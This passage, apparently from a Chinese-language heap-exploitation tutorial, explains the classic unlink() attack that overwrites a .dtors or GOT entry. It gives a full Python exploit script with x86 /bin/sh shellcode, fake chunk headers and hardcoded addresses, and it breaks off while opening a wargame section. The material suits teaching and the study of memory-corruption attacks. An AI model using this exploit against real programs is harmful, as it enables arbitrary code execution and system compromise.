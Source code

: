 unlink(){\
BK = P->bk; —> 新块的BK是之前空闲块的BK\
FD = P->fd; —> 新块的FD是之前空闲块的FD\
FD->bk = BK; —> 下一个块的BK指向新块\
BK->fd = FD; —> 前一个块的FD指向新块\
}

因此，如果成功修改了P->bk为shellcode的地址，并将P->fd修改为GOT或DTORS中条目的地址减去12，就可以实现：

BK = P->bk = \&shellcode\
FD = P->fd = &\_\_dtor\_end\_\_ - 12\
FD->bk = BK -> \*((&\_\_dtor\_end\_\_ - 12) + 12) = \&shellcode

这样在程序退出时将执行shellcode。

此外，unlink()的第四条语句会写入一些内容，因此shellcode必须进行修复：

BK->fd = FD -> \*(\&shellcode + 8) = (&\_\_dtor\_end\_\_ - 12) —> 这将从shellcode的第8个字节开始写入4个字节，因此shellcode的第一条指令必须是跳转指令以跳过此内容，然后进入一系列nop指令，最终执行shellcode的其余部分。

因此，利用程序如下：

在buffer1中插入shellcode，以跳转指令开头，使其跳转到nop或shellcode的其余部分。

在shellcode之后填充，直到达到下一个块的prev\_size和size字段。在这些位置上插入0xfffffff0（以覆盖prev\_size并设置空闲位）和“-4”（0xfffffffc）在size中（以便在第三个块检查第二个块是否空闲时实际上转到修改后的prev\_size，指示第二个块是空闲的）-> 这样，当free()调查时，它将转到第三个块的size，但实际上会转到第二个块 - 4，并认为第二个块是空闲的。然后调用**unlink()**。 在调用unlink()时，将使用第二块的前几个数据作为P->fd，因此将在那里插入要覆盖的地址 - 12（因为在FD->bk中将在保存在FD中的地址上加12）。然后在该地址中插入第二块中找到的第二个地址，我们希望它是shellcode的地址（P->bk伪造）。

```python
from struct import *
import os

shellcode = "\xeb\x0caaaabbbbcccc" #jm 12 + 12bytes padding
shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

prev_size = pack("<I", 0xfffffff0) #确保前一个块的空闲位为1
fake_size = pack("<I", 0xfffffffc) #-4，使第三块的“size”被认为在4字节之前（指向prev_size），因为它检查第二块是否空闲
addr_sc = pack("<I", 0x0804a008 + 8) #payload开头加入8字节填充
got_free = pack("<I", 0x08048300 - 12) #free()在plt中的地址-12（将被覆盖以第二次调用free时执行shellcode）

payload = "aaaabbbb" + shellcode + "b"*(512-len(shellcode)-8) #payload以8字节填充开始
payload += prev_size + fake_size + got_free + addr_sc #修改第二块，got_free指向我们将保存地址addr_sc + 12的位置
os.system("./8.3.o " + payload)
```

**unset()反向释放（wargame）**

我们控制3个连续的块，并按相反顺序释放它们。

在这种情况下：

在块c中放置shellcode

我们使用块a来覆盖块b，使得size字段的PREV\_INUSE位被禁用，以便认为块a是空闲的。
